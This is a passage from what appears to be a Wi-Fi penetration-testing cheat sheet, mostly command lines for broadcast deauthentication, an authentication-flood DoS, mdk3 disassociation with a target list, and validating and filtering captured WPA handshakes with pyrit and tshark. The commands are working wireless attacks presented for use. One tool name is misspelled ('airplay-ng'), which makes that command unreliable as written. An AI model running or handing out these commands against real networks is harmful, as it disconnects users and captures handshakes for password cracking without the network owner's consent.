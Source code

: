 The same term of deauthentication, but in that case using the brodcast MAC address in order to deauthenticate all clients.

```
airplay-ng -0 0 -e <ESSID> -c FF:FF:FF:FF:FF:FF <IFACE>
```

## Auth attack or Authentication DoS Mode

Could be sound strange, but if you authenticate 5000 clients to the Access Point is possible to kick out client of the network and then capture their handshake.

```
airplay-ng -1 0 -e <ESSID> -h 00:a0:8b:cd:02:65 <IFACE>  #To authenticate 1 client
```

```
mdk3 <IFACE> a -a <BSSID> #Authenticating clients until DoS
```

Finally the AP will eject the clients with less power rate.

## Dissassociation Amok Mode Attack

Same as deauthentication attack but mdk3 gives us the opportunity to introduce `allow/deny` lists.

```
blacklist.txt:
a0:e4:b2:45:f6:87

mdk3 <IFACE> d -w blacklist.txt -c 1
```

## Validating the handshake

Sometimes `aircrack-ng` tells us that it capture a handshake when it hasn't. So we can validate it with `pyrit`.

```
pyrit -r Capture-01.cap analyze
```

## Filtering the capture

When we are trying to capture a handshake, maybe we are capturing a lot of packets, so we just need to filter that. `(EAPOL -> Handshakes) (wlan.fc.type_subtype==0x08 are Beacons) (wlan.fc.type\_subtype==0x05 are Probe Response)`

```
tshark -r Capture-01.cap -Y "wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol" -F pcap 2>/dev/null
tshark -r Capture-01.cap -Y "wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol"  -w filteredCapture -F pcap 2>/dev/null

pyrit -r filteredCapture analyze
```
